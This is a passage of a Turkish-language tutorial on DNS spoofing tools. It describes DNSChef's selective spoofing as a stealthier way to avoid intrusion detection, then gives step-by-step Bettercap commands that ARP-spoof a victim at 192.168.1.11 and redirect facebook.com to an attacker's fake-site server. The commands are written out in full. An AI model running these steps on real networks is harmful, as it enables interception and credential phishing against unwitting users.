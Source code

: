 #### **4\. Öne Çıkan Özellikler**

* Proxy gibi davranır: Hedeflenmeyen sorguları meşru DNS sunucularına iletir.  
* Hangi alan adlarının spoof edileceği üzerinde ayrıntılı kontrol sağlar.  
* Birden fazla DNS kayıt türünü (A, MX, CNAME vb.) destekler.  
* Sahte kayıtları tanımlamak için harici bir dosya kullanabilir.

#### **5\. Referans Verilen Kaynaklar:**

DNSChef'in proxy yeteneği ve seçici spoofing (örneğin, \--fakedomains parametresi) genel spoofing'e göre daha sofistike bir yaklaşım sunar. Bu, ilgisiz hizmetleri kesintiye uğratarak kullanıcıları veya Saldırı Tespit Sistemlerini (IDS) uyarabilecek daha az hedefli saldırılara kıyasla daha gizli ve hedefli saldırılara olanak tanır. DNSChef saldırganın makinesinde bir DNS sunucusu olarak çalışsa da, kurbanın DNSChef'i kendi DNS sunucusu olarak kullanmasını sağlamak, başarının kritik önkoşuludur. Bu genellikle, kurbanın DNS ayarlarını değiştirmek için ARP spoofing (gerçek DNS sunucusunu veya ağ geçidini taklit etmek) veya DHCP spoofing (DNSChef'in IP'sini DNS sunucusu olarak atamak) gibi ayrı bir saldırı vektörüne dayanır, bu da genel saldırı başarısı için bir bağımlılık zincirini vurgular.

### **D. Bettercap: Modern, Modüler MITM Güç Merkezi**

#### **1\. Genel Bakış ve Güçlü Yönleri**

Bettercap, "modern ve esnek bir MITM aracıdır ve DNS spoofing için güçlü bir seçenektir." Yüksek düzeyde modüler olması ("caplet" adı verilen betiklerle görev otomasyonu), aktif geliştirme süreci, çeşitli MITM tekniklerini desteklemesi ve güçlü interaktif oturumu başlıca avantajlarıdır.

#### **2\. Platform ve Gereksinimler**

* **Platform:** Kali Linux (genellikle önceden yüklüdür). Yüklü değilse, sudo apt install bettercap.  
* **Gereksinimler:**  
  * Kök yetkileri.  
  * IP yönlendirme: sudo sysctl \-w net.ipv4.ip\_forward=1.  
  * Sahte site için bir web sunucusu.

#### **3\. Adım Adım Kullanım**

1. **Bettercap Başlatma:** sudo bettercap \-iface eth0.  
2. **Parametreleri Ayarlama (Bettercap interaktif oturumunda):**  
   set arp.spoof.targets 192.168.1.11   
   set dns.spoof.domains facebook.com,\*.facebook.com  
   set dns.spoof.address 192.168.1.100 

3. **Modülleri Aktive Etme:**  
   arp.spoof on  
   dns.spoof on

4. **Saldırıyı Sonlandırma:** dns.spoof off; arp.spoof off.

#### **4\. Öne Çıkan Özellikler**

* Görevleri otomatikleştirmek için "caplet"lerle modüler tasarım.  
* Dahili ARP spoofer, DNS spoofer ve diğer ağ saldırı modülleri.  
* Dinamik kontrol için interaktif komut satırı arayüzü.  
* Aktif olarak bakımı yapılan ve yeni özelliklerle güncellenen bir araçtır.
